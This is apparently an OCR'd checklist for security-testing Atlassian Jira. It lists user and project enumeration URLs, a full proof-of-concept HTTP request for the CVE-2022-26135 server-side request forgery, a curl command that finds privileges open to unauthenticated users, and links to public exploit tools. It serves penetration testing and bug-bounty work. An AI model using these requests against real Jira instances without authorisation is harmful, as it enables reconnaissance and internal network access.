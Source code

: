 ```
Navigate to <JIRA_URL>/browse.<project_ key>
Observe the error message on valid vs. invalid project key. Apart from the Enumeration, you can often get unauthenticated access to the project if the protections are not in place.
```
[ ] cve-2020-14181 (user enumeration)
```
Navigate to <JIRA_URL>/secure/ ViewUserHover.jspa?username=<username>
Observe the response when valid vs. invalid username is provided.
```
[ ] CVE-2022-26135 ( Full-Read Server Side Request Forgery in Mobile Plugin for Jira Data Center and Server )
```
https://github.com/assetnote/jira-mobile-ssrf-exploit
```
The following HTTP request can be used to reproduce this issue, once authenticated to the Jira instance:
```
POST /rest/nativemobile/1.0/batch HTTP/2
Host: issues.example.com
Cookie: JSESSIONID=44C6A24A15A1128CE78586A0FA1B1662; seraph.rememberme.cookie=818752%3Acc12c66e2f048b9d50eff8548800262587b3e9b1; atlassian.xsrf.token=AES2-GIY1-7JLS-HNZJ_db57d0893ec4d2e2f81c51c1a8984bde993b7445_lin
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Content-Type: application/json
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Origin: https://issues.example.com
Referer: https://issues.example.com/plugins/servlet/desk
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 63

{"requests":[{"method":"GET","location":"@example.com"}]}
```

[ ] Check Privileges
Inside a Jira instance any user (even non-authenticated) can check its privileges in 
```
/rest/api/2/mypermissions or 
/rest/api/3/mypermissions  
```
These endpoints will return your current privileges.If a non-authenticated user have any privilege, this is a vulnerability (bounty?).If an authenticated user have any unexpected privilege, this a a vuln.

```
#Check non-authenticated privileges
curl https://jira.some.example.com/rest/api/2/mypermissions | jq | grep -iB6 '"havePermission": true'
```

[ ] CVE-2017-9506 , CVE-2019-8449 , CVE-2019-11581,CVE-2019-8451 
```
https://github.com/0x48piraj/Jiraffe
```
